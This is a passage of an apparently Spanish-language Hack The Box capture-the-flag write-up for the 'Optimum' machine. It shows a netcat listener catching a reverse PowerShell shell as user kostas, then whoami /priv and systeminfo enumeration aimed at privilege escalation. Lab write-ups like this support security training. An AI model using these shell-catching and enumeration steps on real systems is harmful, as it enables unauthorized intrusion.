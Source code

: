 ```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49162
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
optimum\kostas
PS C:\Users\kostas\Desktop>
```

Ya tenemos acceso al sistema como el usuario **kostas** y podemos ver la flag *user.txt*. Procedemos a enumerar un poco el sistema para determinar como escalar privilegios.

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\Users\kostas\Desktop>
systeminfo                                                                                                                  [27/27]
                                                                 
Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server      
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User   
Registered Organization:                                         
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ??
System Boot Time:          13/9/2021, 2:49:50 ??
System Manufacturer:       VMware, Inc.   
System Model:              VMware Virtual Platform
System Type:               x64-based PC   
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows     
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek       
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB       
Available Physical Memory: 3.457 MB       
Virtual Memory: Max Size:  5.503 MB       
Virtual Memory: Available: 4.916 MB       
Virtual Memory: In Use:    587 MB         
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB                                   
Logon Server:              \\OPTIMUM      
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
```